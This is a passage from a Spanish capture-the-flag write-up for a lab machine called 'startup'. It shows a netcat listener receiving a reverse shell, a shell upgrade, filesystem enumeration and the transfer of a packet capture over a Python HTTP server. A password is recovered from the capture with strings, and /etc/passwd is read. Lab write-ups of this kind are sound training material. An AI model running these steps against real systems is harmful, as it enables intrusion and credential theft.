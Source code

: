 Solo nos podemos al escucha:

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.206.201] from (UNKNOWN) [10.10.120.176] 53102
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 21:52:06 up  1:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@startup:/$ 
```

*La primera pregunta se encuentra en la raiz como recipe.txt*

## Shell como Lennie
Enumeramos un poco el sistema y encontramos un archivo que se llama *suspicious.pcapng* nos transferimos dicho archivo:

```bash
www-data@startup:/$ ls
ls
bin   home            lib         mnt         root  srv  vagrant
boot  incidents       lib64       opt         run   sys  var
dev   initrd.img      lost+found  proc        sbin  tmp  vmlinuz
etc   initrd.img.old  media       recipe.txt  snap  usr  vmlinuz.old
```


```bash
www-data@startup:/$ cd incidents
cd incidents
www-data@startup:/incidents$ ls
ls
suspicious.pcapng
www-data@startup:/incidents$ python3 -m http.server
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 ...
```

## Analisis del suspicious.pcapng

Con el comando strings analizamos el archivo:

Encontramos una password y pruebo a ver si es la del usuario lennie:
*c4ntg3t3n0ughsp1c3*

```bash
strings suspicious.pcapng
...
sudo -l
[sudo] password for www-data: 
@       c4ntg3t3n0ughsp1c3
6%      @
Sorry, try again.
[sudo] password for www-data: 
^/Sorry, try again.
[sudo] password for www-data: 
c4ntg3t3n0ughsp1c3
sudo: 3 incorrect password attempts
www-data@startup:/home$ |
cat /etc/passwd
cat /etc/passwd
```